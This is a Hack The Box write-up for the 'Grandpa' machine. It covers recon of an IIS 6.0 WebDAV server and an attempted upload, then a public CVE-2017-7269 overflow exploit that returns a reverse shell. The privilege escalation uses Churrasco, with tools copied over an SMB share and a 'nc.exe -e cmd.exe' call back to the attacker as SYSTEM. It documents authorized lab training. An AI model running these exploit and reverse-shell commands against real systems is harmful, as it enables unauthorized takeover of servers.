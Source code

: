 # Grandpa [HTB](https://app.hackthebox.com/machines/13)
![grandpa-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/grasndpa-01.png)

## Recon

After adding the target to `/etc/hosts`, I start scanning for open ports:

```bash
nmap -p- --min-rate 10000 grandpa.htb
```

![ports-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/ports-02.png)

A single HTTP port. Let's perform service and version detection:

```bash
nmap -p 80 -sCV grandpa.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/nmap-res-03.png)

We can see that `nmap` has identified that [WebDAV](https://en.wikipedia.org/wiki/WebDAV) is enabled on this server. In short, `WebDAV` are extensions to the HTTP protocol that allows authorized users to create, change and move documents on the server. Thus, allowing the server to be viewed as a modifiable, collaborative medium instead of a read-only medium. 

In terms of a pentest, we want to try and leverage the WebDAV to upload and execute files on the server. Usually, to connect to the WebDAV server we need valid credentials, so if we dont have any we might need to [brute force](https://book.hacktricks.xyz/generic-methodologies-and-resources/brute-force#http-basic-auth). Other then that, we need to determine which methods are supported by the server, and which file extensions can be uploaded, etc. 

We can run tools like `davtest` and `curl` to enumerate the WebDAV server further. `HackTricks` has a nice [overview](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav) we can follow.

Based on the `nmap` scan we can also see that the web server is an IIS 6.0. This is relevant, because there is a buffer-overflow [exploit](https://www.exploit-db.com/exploits/41738) for IIS 6.0 servers with `WebDAV`, however I want to try and go the manual route first.

### IIS Port 80

Let's start by opening the site at `http://grandpa.htb`:

![site-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/site-04.png)

Not much to see here. Let's run a directory and file scan using:

```bash
ffuf -w /usr/share/wordlists/seclists/SecLists-master/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://grandpa.htb/FUZZ -e .aspx,.cgi,.txt,.xml,.conf,.html
```

Which brings the following result:

![images-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/images-05.png)

![private-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/private-06.png)

Trying to open the `images` directory eventually ends up with a `403` forbidden code after a couple of redirects. The `_private` directory looks more interesting though, typically WebDAV directories are prefixed with an underscore to try and hide them. 

Let's try to upload a file, We can do this with:

```bash
curl -i -s -k -X PUT http://grandpa.htb/_private -d @test.txt
```

This didnt work I got a `403` error. I tried different file extensions like `html`, and `png`. I tried to upload to different directories like the root of the server and `images` nothing worked. 

I decided to run `davtest` to see if it can cover something I missed:

```bash
davtest -url http://grandpa.htb/_private
```

![davtest-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/davtest-07.png)


Trying different directories does at least connect, but we cant upload or do anything on them 
![davtest-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/davtest-08.png)

I think it's safe to conclude that we cant manually exploit the WebDAV itself. Let's go for the buffer-overflow expliot.

### Buffer-Overflow


If we go to the [ExploitDB](https://www.exploit-db.com/exploits/41738) version, we can see that the shellcode launches `cala.exe` instead of a remote shell:

![calc-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/calc-09.png)

We dont want that. We could try to generate our own shellcode and simply replace the one in the script. 
This however is not so simple, and for me it didnt work. 

So I searched online and found [this exploit](https://github.com/danigargu/explodingcan/tree/master). It  has a clean code, and the most stars. This one also specified that the shellcode needs to be alphanumeric encoded, which is interesting. 

At first I tried to get a standard shell without a meterpreter but this didnt work. So instead I followed the instructioins on the github page and generated a meterpreter shellcode. I then setup `multi/handler` and got a shell in meterpreter using `msfconsole`.

This worls, but I want to try and avoid `metasploit` as much as possible, so I searched online for other exploits and I found [this one](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269). 

Based on the source code, we can see the expected arguments when invoking the script:

![source-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/source-10.png)

We need to specify the remote IP and port of the target, as well as our listener's. But I dont see the exploit creating a thread to catch the reverse shell so we need to do that ourselfes. 

I setup the listener with:

```bash
rlwrap nc -lnvp 443
```

And execute the exploit with:

```bash
python2 exploit.py 10.129.95.233 80 10.10.14.46 443
```

The script hangs for a few seconds, then I get a shell on my `nc`:

![shell-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/shell-11.png)

## Privilege Escalation

Immediately after landing on the machine I start hunting for quick wins. I started by looking for stored credentials with `cmdkey /list` but there are none. 

I then move on to look for user privileges with `whoami /priv`:

![privs-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/privs-12.png)

Here we can see our user has the `Impersonate` privileges enabled, which means we can try to pull of a [potato attack](https://jlajara.gitlab.io/Potatoes_Windows_Privesc). My go to for Windows servers < 2019 is [JuicyPotato](https://github.com/ohpe/juicy-potato), but this is an old Windows server:

```cmd
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
``` 

![sysinfo-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/sysinfo-15.png)


So instead let's try [Churrasco](https://github.com/Re4son/Churrasco/). To pull this off we need to transfer the `Churrasco` binary over to the target along with `nc.exe`. This, I typically achive with a python server on my attack machine, and `certutil` to download the files over to the target. 

However on this machine, there is an issue:

![cert-err-13](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/cert-err-13.png)

I know my syntax is correct, as it works on virtually any other Windows machine, but here it doens't. Searching this error online, I came to find that we have an issue with the Certificate Revocation List (CRL) being expired. Thus causing applications that need to check the revocation status of certificates issued by this CA to fail.

I tried to find a way to create a new CRL using `certutil -CRL`, didnt work. I tried to create a new certificate database with `certutil -N -d .`, didnt work. After a few dozen minutes googling I decided to give up on the idea and try powershell instead.

This is where I encountered another issue:

![no-ps-14](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/no-ps-14.png)

I tried searching for `C:\\Windows\System32\WindowsPowerShell`, there is none. Powershell was intoruced with Windows server 2008, but it was addedd to Windoes server 2003, just not this one I guess. 

Instead let's setup an SMB server on my attack machine using `impacket`:

```bash
impacket-smbserver -smb2support grandpa .
```
 
Then I connect to the share and copy the files over from the target using:

```cmd
net use \\10.10.14.46\grandpa
copy \\10.10.14.46\grandpa\churrasco.exe
copy \\10.10.14.46\grandpa\nc.exe
```

Now we can see both files are on the target:

![files-15](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/files-15.png)

Now we can test `churrasco` by running `churrasco.exe "whoami"`:

![whoami-16](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/whoami-16.png)

We can see that is works, and we have command execution as the `SYSTEM`. 

So now we can setup a listener on our Kali machine with:

```bash
rlwrap nc -lnvp 8080
```

And use `nc.exe` to connect back to our machine:

```cmd
churrasco.exe "C:\\windows\Temp\nc.exe -e cmd.exe 10.10.14.46 8080"
```

Which gets us a shell as the `SYSTEM`:

![root-17](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Grandpa/img/root-17.png)




